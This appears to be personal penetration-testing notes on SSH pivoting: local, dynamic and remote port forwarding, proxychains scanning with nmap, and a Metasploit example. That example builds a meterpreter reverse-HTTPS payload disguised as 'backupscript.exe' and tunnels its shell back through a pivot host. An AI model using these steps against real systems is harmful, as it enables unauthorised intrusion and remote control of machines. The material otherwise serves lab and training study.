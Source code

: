 ### Local Port Forwarding

This setup creates a new port on your local machine (`[local_port]`), which forwards traffic to a specific destination on the remote machine (`[target_ip]:[target_port]`). If a service is accessible remotely on a particular IP and port, local port forwarding allows you to access it through your machine's port.

```bash
ssh {-N} -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh {-N} -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
 ssh {-N} -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

#### Port Forwarding Multiple Ports

```bash
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

Example:

```bash
ssh -L [local_port]:[target_ip]:[target_port] -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

### Dynamic Port Forwarding

Useful when we don't know what port we need to connect to. To be used with `proxychains` or a `socks4/5` connection in a web browser. Not `socks4` only supports `TCP` whereas `sock5` supports both `TCP` and `UDP`.

```bash
sudo ssh {-N} -D 127.0.0.1:1080 [user]@[target]
```

Proxychains Config:

```
socks5	127.0.0.1 1080
```

Then use proxychains with `nmap` to scan a target:

```bash
proxychains -d nmap -sT -Pn x.x.x.x
```

For web browsing, configure a suitable proxy:

![[Pasted image 20250203111426.png]]

Can also use other applications with proxychains:

```bash
proxychains -d msfconsole -q
proxychains xfreerdp
```

### Remote Port Forwarding

This setup allows the attacker's machine to receive connections on a specified port and forward traffic through an intermediary **pivot point** to reach a service running locally on the target machine. Since the target has no direct route to the attacker, a reverse shell or direct connection would fail. However, the pivot point, which has communication with both the attacker and the target, can act as a bridge.

![[Pasted image 20250203121025.png]]

Example Using Metasploit to obtain a shell on the Target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivot_point> -f exe -o backupscript.exe LPORT=<port_to_listen_to_on_pivot_point>
```

Transfer exe to Target.

From Attacker:

```bash
ssh -R <PivotPointIP>:<port_to_listen_to_on_pivot_point>:0.0.0.0:<attacker_listen_port> ubuntu@<PivotPointIP> -vN
```

